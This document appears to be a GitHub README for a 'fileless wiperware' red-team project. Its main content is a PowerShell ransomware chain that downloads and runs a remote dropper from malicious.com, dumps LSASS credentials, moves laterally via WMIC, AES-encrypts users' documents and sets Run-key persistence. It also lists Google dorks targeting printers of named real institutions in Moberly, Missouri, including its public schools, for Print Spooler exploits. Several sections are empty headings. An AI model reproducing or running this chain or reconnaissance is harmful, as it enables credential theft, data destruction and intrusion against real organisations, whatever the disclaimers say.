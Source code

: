 
# 🚩 Overview

![Demo Screenshot](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)

---

## 🔒 Project NSFW: Net Sharing Fileless Wiperware

### Executive Summary

**Project NSFW** is a red/purple team research initiative that simulates a **fileless malware** framework, purpose-built for **Windows 11** environments. This project is for educational and security research purposes only.

---

This repository enables simulation of a realistic adversary kill chain using MITRE ATT&CK techniques, emphasizing complete fileless operation and stealth.

---

## 🔓 Fileless Ransomware Lab Example (LOLBins in Action)

> **Warning:** This is a synthetic simulation for red team research.  
> **Never run outside of an isolated test lab.**

```powershell
# Initial Access (T1190) - Load dropper via web
IEX(New-Object Net.WebClient).DownloadString("http://malicious.com/dropper.ps1")

# Execution (T1059.001) - Decode & load payload
$bytes = [System.Convert]::FromBase64String("[Base64Payload]") 
[System.Reflection.Assembly]::Load($bytes)

# Privilege Escalation (T1548)
Start-Process powershell -Args "-ExecutionPolicy Bypass -File C:\Temp\elevate.ps1" -Verb RunAs

# Credential Access (T1003.001)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Temp\lsass.dmp full

# Lateral Movement (T1021.001)
wmic /node:targetPC process call create "powershell.exe -File \\share\payload.ps1"

# File Encryption (T1486)
$files = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.docx,*.pdf -Recurse
foreach ($file in $files) {
  $data = Get-Content $file.FullName -Raw
  $aes = New-Object System.Security.Cryptography.AesManaged
  $aes.Key = [Text.Encoding]::UTF8.GetBytes("RANDOM-GEN-KEY-1234567890123456")
  $aes.IV = New-Object byte[] 16
  $enc = $aes.CreateEncryptor().TransformFinalBlock([Text.Encoding]::UTF8.GetBytes($data), 0, $data.Length)
  Set-Content -Path $file.FullName -Value ([Convert]::ToBase64String($enc))
}

# Persistence (T1547.001)
Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ransomware" -Value "powershell -File C:\Temp\persist.ps1"
```
## Google Dorks Recon:

# 🖨️ Printer Reconnaissance via Google Dorking  
**Target Location:** Moberly, Missouri  
**Objective:** Identify publicly exposed printer services vulnerable to Windows Print Spooler exploits such as CVE-2021-1675 (PrintNightmare), CVE-2021-34527, and CVE-2022-21999. These exposures can assist in red team assessments, lateral movement staging, or vulnerability management audits.

This technique uses crafted Google Dork queries to uncover unsecured or misconfigured web-based printer interfaces (e.g., HP JetDirect, RICOH Web Image Monitor, Canon UI), often found in public school systems, city infrastructure, or small business networks. These systems may have active Print Spooler services, which can be exploited for privilege escalation or remote code execution via known vulnerabilities.

---

## 🔍 Google Dork Examples (Moberly-Focused)


    inurl:"/hp/device/this.LCDispatcher" "Moberly"
    intitle:"Printer Status" "Moberly Public Schools"
    intitle:"Web Image Monitor" inurl:"/wim" "Moberly"
    inurl:"/printer/main.html" "City of Moberly"
    intitle:"Web Jetadmin" "Moberly"
    inurl:"/printers/" "Moberly"
    inurl:"/PPS/public/" "Moberly"
    intitle:"Konica Minolta" inurl:"/wcd/" "Moberly"
    intitle:"PaperCut MF" "Moberly"
    intitle:"Lexmark" inurl:"/printer/" "Moberly"
    intitle:"Canon Remote UI" "Moberly"
    intitle:"EpsonNet Config" "Moberly"

---
## LOLbins Overveiw: 

## Embed and Encoded Dropper:

## HiveNightmare / Print Spooler Exploits: 

## Reflective Dll Injection: 

## Mitre Attack Summary: 

## Detection & Mitigation Strategy

---

### ⚠️ Legal Disclaimer

All code, content, and techniques provided in this project are strictly for **educational** and **authorized penetration testing** purposes only. Usage must be confined to **isolated lab environments** and must comply with all relevant laws and regulations.

---

## 🧭 Additional Resources

* [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
* [LOLGEN – Generate LOLBin Chains](https://lolgen.hdks.org/)
* [MITRE ATT&CK: S0697](https://attack.mitre.org/software/S0697/)
* [DLL Injection Primer](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
* [Print Spooler Exploit Chain](https://itm4n.github.io/printnightmare-not-over/)
* [Fileless Malware – Wikipedia](https://en.wikipedia.org/wiki/Fileless_malware)

---

### 📚 Print Spooler CVEs

* [SysNightmare](https://github.com/GossiTheDog/SystemNightmare)
* [PrintSpoofer (Original)](https://github.com/itm4n/PrintSpoofer/tree/master)
* [PrintSpoofer 2](https://github.com/dievus/printspoofer)
* [HiveNightmare](https://github.com/GossiTheDog/HiveNightmare)

